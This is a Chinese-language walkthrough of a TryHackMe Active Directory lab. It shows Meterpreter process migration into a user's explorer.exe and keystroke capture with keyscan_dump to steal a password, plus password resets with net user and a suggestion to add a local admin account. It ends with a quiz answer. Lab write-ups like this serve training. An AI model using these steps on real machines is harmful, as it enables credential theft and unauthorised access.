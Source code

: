 一旦你拥有了 Meterpreter Shell，你可以继续。第一步是查看这台机器上用户是否有运行的进程：

```shell title="Terminal"
meterpreter\>ps | grep "explorer"
Filtering on 'explorer'

Process List
============

 PID   PPID  Name          Arch  Session  User                     Path
 ---   ----  ----          ----  -------  ----                     ----
 3612  3592  explorer.exe  x64   1        THMSERVER1\trevor.local  C:\Windows\explorer.exe
```

如果你在 trevor.local 用户下没有看到 explorer.exe 进程，你可以通过以下步骤自行启动这个进程：

- 使用以下命令重置 trevor.local 用户的密码：`net user trevor.local <password>`
- 在 PowerShell 中运行以下命令：`C:\auto-login.ps1 trevor.local <password> THMSERVER1`
- 使用 `shutdown -r` 重启服务器
- 服务器重新上线后，你应该能看到 explorer 进程。

看起来我们很幸运！用户在 THMSERVER1 上有一个活动会话。让我们迁移到这个用户的某个进程。通常，最安全的选择是像 explorer.exe 这样的进程：

```shell title="Terminal"
meterpreter\>migrate 3612
[*] Migrating from 4408 to 3612...
[*] Migration completed successfully.
```

我们可以使用 getuid 命令确认我们现在正在以目标用户的上下文中运行：

```shell title="Terminal"
meterpreter\>getuid
Server username: THMSERVER1\trevor.local
```

现在我们需要耐心等待。如果幸运的话，我们将捕获一些凭据！等待几分钟，然后运行以下命令来转储捕获的按键记录：

```shell title="Terminal"
meterpreter\>keyscan_dump
Dumping captured keystrokes...
keep<CR>
<Shift>Passwordpasswordpassword<CR>
```

这是针对 AD 用户的一个简单示例。还有许多其他工作可以做。在你的 AD 利用方法论中包含用户定位非常重要。为了回答这个任务的问题，你将需要使用 Keepass。它已经在 AttackBox 上为你安装好了，所以你只需搜索并运行该应用程序。如果你使用的是自己的虚拟机，在大多数 Linux 发行版上，sudo apt install keepassx 应该可以工作。或者你也可以从这里下载。另外，请确保使用 meterpreter 的下载命令将 Keepass 数据库下载到你的主机上。如果你正在使用 Kali，请确保 kali 用户拥有数据库文件，然后再打开它，否则它可能会锁定数据库并给出错误的结果。

虽然持久性只会在下一个环节中讨论，但现在可能是创建 THMSERVER1 上的一个本地账户并授予管理员权限的好时机，这样你就有了一个良好的立足点。由于这对于接下来的任务并不是真正需要的，如果你想这样做，你需要自己进行一些研究。

:::info Answer the questions below

使用什么应用程序打开 kdbx 凭证数据库？

```plaintext
Keepass
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami